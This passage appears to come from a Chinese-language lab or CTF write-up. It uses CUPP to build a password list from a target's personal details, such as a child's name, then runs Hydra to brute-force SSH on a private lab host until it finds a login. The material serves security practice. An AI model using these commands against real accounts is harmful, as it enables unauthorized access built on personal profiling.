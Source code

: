 ```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cupp -i
...
[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: David
> Surname: 
> Nickname: 
> Birthdate (DDMMYYYY): 

> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 

> Child's name: Jake
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 

> Pet's name: 
> Company name: 

> Do you want to add some key words about the victim? Y/[N]: 
> Do you want to add special chars at the end of words? Y/[N]: 
> Do you want to add some random numbers at the end of words? Y/[N]:
> Leet mode? (i.e. leet = 1337) Y/[N]: 

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to david.txt, counting 212 words.
[+] Now load your pistolero with david.txt and shoot! Good luck!
```

**CUPP 知识点补充**：

- **CUPP** (Common User Passwords Profiler) 是基于社会工程学的密码字典生成工具
- 根据目标人物信息（姓名、生日、宠物名等）自动生成可能的密码组合
- 支持添加特殊字符、数字后缀、Leet 替换（如 a→4，e→3）等变换规则

### 5.3.3 SSH 密码爆破

使用生成的字典对 `lamb` 用户进行 SSH 爆破：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ hydra -l lamb -P david.txt ssh://192.168.205.239 -f -I -u -e nsr -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak
...
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 215 login tries (l:1/p:215), ~4 tries per task
[DATA] attacking ssh://192.168.205.239:22/
[22][ssh] host: 192.168.205.239   login: lamb   password: ekaJ_2016
[STATUS] attack finished for 192.168.205.239 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
...
```

